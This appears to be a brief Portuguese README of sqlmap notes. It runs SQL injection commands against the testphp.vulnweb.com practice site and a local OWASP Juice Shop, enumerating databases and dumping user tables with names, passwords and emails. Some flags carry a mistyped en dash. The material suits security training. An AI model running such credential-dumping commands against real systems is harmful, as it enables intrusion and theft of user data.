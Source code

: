 # SQLMap

Site para testes http://testphp.vulnweb.com
```
sqlmap --help
```
```
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs
```
```
sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables
```
``` 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns
```
``` 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users -C name,pass,uname,email –-dump
``` 
Database Schema Juice-Shop
``` 
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --schema
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --tables
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users --dump --threads=4
``` 
## Fontes:

https://www.100security.com.br/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki/Introduction
